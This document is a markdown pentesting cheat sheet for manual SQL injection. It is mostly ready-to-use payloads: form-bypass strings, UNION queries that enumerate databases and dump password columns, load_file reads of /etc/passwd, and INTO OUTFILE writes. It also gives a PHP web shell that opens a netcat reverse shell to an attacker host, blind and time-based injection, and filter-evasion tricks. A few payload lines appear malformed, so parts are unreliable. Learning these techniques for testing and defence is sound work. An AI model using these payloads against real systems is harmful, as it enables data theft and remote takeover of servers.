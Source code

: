 ```yaml
---
title: SQLi Cheat sheet for manual injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
---
```


# SQLi Cheat sheet for manual injection

See a more detailed [explanation about SQL injection](webexploitation/sql-injection).


### Manual UNION attack

```
# 0. Comments 
--comment       // Oracle
--comment       // Microsoft
/*comment*      // Microsoft
--comment       // PostgreSQL
/*comment*/     // PostgreSQL
#comment        // MySQL
-- comment      // MySQL [Note the space after the double dash]
/*comment*/     // MySQL

   
# 1. Bypass a form      
1' OR '1'='1';#
' OR '1'='1';#
1' OR '1'='1';-- - 
' OR '1'='1';-- -  


# 2. Number of columns (UNION attack)
1' OR '1'='1' order by 1;#
1' OR '1'='1' order by 2;#
1' OR '1'='1' order by 3;#
...
# Do this until you get an error message and then you will know the number of columns
# Another method to see the number of columns. 
' OR '1'='1' order by 1;-- -   

# 3. Get which column is being displayed. For instance, when we know we have 6 columns:
1' OR '1'='1' UNION SELECT all 1,2,3,4,5,6;# 

# 4. Get names of all databases 
1' OR '1'='1' UNION SELECT null,table_schema,null,null,null,null,null FROM information_schema.tables;#

# 5. Get names of all tables from the selected database
1' OR '1'='1' UNION SELECT null,table_name,null,null,null,null FROM information_schema.tables;# 


# 6. Get the name of all columns of a selected table from a selected database
1' OR '1'='1' UNION SELECT null,column_name,null,null,null,null FROM information_schema.columns WHERE table_name='users';#


# 7. Get the value of a selected column (for instance, password)
1' OR '1'='1' UNION SELECT null,passwords,null,null,null,null FROM users;#
```


Also, once we know which column is injectable, there are some php functions that can provide us some worthy knowing data:

```
database()
user()
version()
```

And here an example of how to retrieve them:

```
# if injectable columns are number 2, 3 and 4 you can display some info from the system
union select 1, database(),user(),version(),5

# Extra bonus
# You can also load a file from the system with
union select 1, load_file(/etc/passwd),3,4,5

# and you can try to write to a file in the server
union select 1,'example example',3,4,5 into outfile '/var/www/path/to/file.txt'
union select 1,'example example',3,4,5 into outfile '/tmp/file.txt'

# and we can combine that with a reverse shell like
union select 1,'<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?>', 3,4,5 into outfile '/tmp/reverse.php'

```


### Manual SQLi Blind attack

user() returns the name of the user currently using the database.
substring() returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

```
' OR substring(user(), 1, 1) = 'a
' OR substring(user(), 1, 1) = 'b
1' AND SUBSTRING(user(), 1, 1 = 'r') sleep(0), sleep(10));#
```


### Extra Bonus: Bypassing quotation marks

Sometimes quotation marks get filtered in SQL queries. To bypass that when querying some tablename, maybe we can skip quotation marks by entering tablename directly in HEX values.

More bypassing tips:

```
# Using mingled upper and lowercase

# Using spaces url encoded
+

# Using comments
/**/
/**
--
; --
; /*
; //

# Example of bypassing webpages that only displays one value at a time
1'+uNioN/**/sEleCt/**/table_name,2+fROm+information_schema.tables+where+table_schema?'dvwa'+limit+1,1%23&Submit=Submit#

```

